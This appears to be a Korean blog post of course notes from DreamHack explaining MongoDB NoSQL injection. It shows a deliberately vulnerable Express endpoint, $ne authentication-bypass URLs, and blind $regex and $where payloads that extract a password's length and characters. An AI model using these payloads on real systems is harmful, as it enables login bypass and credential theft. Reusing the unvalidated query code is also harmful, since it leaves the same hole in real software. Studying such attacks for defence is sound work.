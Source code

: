 ```yaml
---
layout: single
title:  "ServerSide : NoSQL Injection"
categories: DreamHack
tag: [DreamHack, WebHacking, Non-Relationa_DBMS,NoSQL,Injection]
toc: true
author_profile: false
---
```


# ServerSide : NoSQL Injection

[Non-Relational DBMS](https://dreamhack.io/lecture/courses/189)
 
NoSQL도 RDBMS와 같이 Injection 공격의 위험이 있다. 이번 코스는 MongoDB를  사용하면서 발생할 수 있는 NoSQL Injection에 대해 배워볼 예정이다.

## NoSQL Injection

NoSQL Injection은 이전에 배운 SQL Injection과 공격방법이 유사하다.  두 공격 모두 이용자의 입력값이 쿼리에 포함되면서 발생하는 문제다.


MongoDB는 문자열이 아닌 타입의 값을 입력할 수 있고, 이를 통해 연산자를 사용 할 수 있다.

아래 코드는 user 콜렉션에서 이용자가 입력한 "uid" 와 "upw"에 해당하는 데이터를 찾고 출력하는 코드다.

```js
const express = require('express');

const app = express();

const mongoose = require('mongoose');

const db = mongoose.connection;

mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });

app.get('/query', function(req,res) {

    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});

const server = app.listen(3000, function(){
    console.log('app.listen');
});

```

코드를 보면 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타압의 값을 입력할 수 있다.

"$ne" 연산자로 입력한 데이터와 일치하지 않는 데이터를 반환받을 수 있다. 즉 계정 정보를 모르더라도 해당 정보를 알 수 있다.

```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a

=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

```
{"uid": "admin", "upw": {"$ne" : ""} }
```

## Blind NoSQL Injection

Blind NoSQL Injection 또한 Blind SQL Injection 처럼 참/거짓 결과를 얻어 정보를 얻는 방식이다.

MongoDB에서는 "$regex", "$where" 연산자를 통해 Blind NoSQL Injection을 할 수 있다.

[MongoDB 연산자 정리](https://kieranoh.github.io/dreamhack/dreamhack-webhacking-8/)

[MongoDB 연산자 공식 문서](https://www.mongodb.com/docs/manual/reference/operator/query/)

"$regex"를 이용해 Blind NoSQL Injection 코드

```
> db.user.find({upw: {$regex: "^a"}})

> db.user.find({upw: {$regex: "^b"}})

...

> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

"$where"와 substring을 이용해 구하는 코드

```
>db.user.find({$where: "this.upw.substring(0,1)=='a'"})

> db.user.find({$where: "this.upw.substring(0,1)=='b'"})


...

> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }

```

비밀번호 길이 획득하는 방법

```
{"uid": "admin", "upw": {"$regex":".{5}"}}
=> admin

{"uid": "admin", "upw": {"$regex":".{6}"}}
=> undefined

```

비밀번호 획득하기

```
{"uid": "admin", "upw": {"$regex":"^a"}}
admin

{"uid": "admin", "upw": {"$regex":"^aa"}}
undefined

{"uid": "admin", "upw": {"$regex":"^ab"}}
undefined

{"uid": "admin", "upw": {"$regex":"^ap"}}
admin

...

{"uid": "admin", "upw": {"$regex":"^apple$"}}

```